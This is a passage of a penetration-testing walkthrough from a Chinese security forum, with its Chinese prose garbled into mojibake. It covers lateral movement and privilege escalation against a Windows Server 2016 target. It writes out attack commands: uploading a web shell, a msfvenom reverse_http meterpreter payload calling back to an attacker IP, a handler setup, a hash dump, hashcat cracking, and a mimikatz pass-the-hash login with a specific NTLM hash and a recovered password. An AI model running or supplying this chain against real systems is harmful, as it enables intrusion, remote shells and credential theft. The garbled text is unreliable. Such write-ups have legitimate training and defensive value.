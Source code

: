 DecodePassword()å½æ°ä¸­è°ç¨çæ¯ç³»ç»åºçdesè§£å¯ï¼  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_3WVQXG8QY8QUD5H.png)  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_NFFSDED2SNEJ9XQ.png)  
æä»¬äºè§£äºç¸å ³çè§£å¯æµç¨ï¼å°±å¯ä»¥èªå·±ç¼åç¸å
³çè§£å¯å·¥å ·å»è§£å¯åé¢æ³¨å ¥å¾å°çå¯ç ä¸ºadmin5566ã



æä»¬ä½¿ç¨å¯ç ç»å ¥åå°ï¼å°ä¸å¥è¯æå
ä¸ºzipå¹¶å¨ç«ç¹æ¨¡æ¿éè¿è¡ä¸ä¼ ï¼å¹¶ä½¿ç¨èåè¿æ¥ï¼  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_ZZE72KMG6W7R4TW.png)  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_G4J7EAYSHQF7MSH.png)  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_AQX5NT4ZQT3JQG9.png)



å¯è§SeImpersonatePrivilegeæ¯å·²å¯ç¨çï¼å½æä»¬å
·æäºSeAssignPrimaryTokenæSeImpersonateç¹æï¼é£ä¹å°±æå³çå
·æäºSYSTEMçæéãæä»¬å¯ä»¥éè¿ä¸è¿°è¿ä¸¤ä¸ªç¹æï¼å¨å
¶ä»ç¨æ·çä¸ä¸æä¸­è¿è¡ä»£ç
ï¼çè³åå»ºæ°çè¿ç¨ãæ¥æSeImpersonatePrivilegeç¹æï¼å°±å¯ä»¥è°ç¨CreateProcessWithToken()ï¼æ¥æSeAssignPrimaryTokenPrivilegeç¹æï¼å°±å¯ä»¥è°ç¨CreateProcessAsUser()ãèPrintSpooferå°±æ¯è¿æ
·çä¸æ¬¾å¼æºå·¥å ·ï¼  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_VNGFCECZF6SUCPM.png)  
åæ¶æä»¬ä¹å¯ä»¥éè¿net
startæ¥çå½åè®¡ç®æºå¼å¯äºåªäºæå¡ï¼æ
¹æ®æå¡åè¿è¡å¤æ­æ¯å¦å¯¹åç»­æææå¸®å©çã

## [](https://bbs.pediy.com/thread-268289.htm)7.3 å ç½æ¸é

æä»¬ä½¿ç¨msfçæç¸å ³åé¨ï¼å©ç¨PrintSpooferæ§è¡åé¨ï¼  
msfvenom -p windows/meterpreter/reverse_http lhost=192.168.202.180 lport=22222
-f exe -o h4.exe //çæexe  
use exploit/multi/handler //å»ºç«çå¬  
set payload windows/meterpreter/reverse_http  
set lport 22222  
set lhost 192.168.202.180  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_ZEMUNHPACV6PFKM.png)  
å ä¸ºç®æ æºå¨æ¯windows server 2016è·åä¸å°ææå¯ç
ï¼æä»¬ä½¿ç¨msfä¸­èªå¸¦æ¨¡årun
post/windows/gather/smart_hashdumpï¼æhash dumpåºæ¥  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_RZ9GVET3N2T7X6Y.png)  
å½æä»¬æ¿å°hashåï¼å¯ä»¥ä½¿ç¨hashcatè¿è¡hashå¼å¾çç ´ï¼  
hashcat -a 0 -m 1000 hash.txt rockyou.txt --force  
-a 0 çç ´æ¨¡å¼ä¸ºå­å ¸æ¨¡å¼  
-m æ¯æå®åå¸ç±»å  
hash.txt æ¯ ntml  
rockyou.txt æ¯å­å ¸  
ä¹å¯ä»¥ä½¿ç¨Hashä¼ éç»å½RDPè¿ç¨æ¡é¢ï¼  
Sekurlsa::pth /user:Administrator /domain: 192.168.202.183
/ntlm:fac5d668099409cb6fa223a32ea493b6 â/run:mstsc.exe /restrictedadminâ  
åå¯ä»¥ä½¿ç¨hashå»ºç«ipcè¿æ¥ã
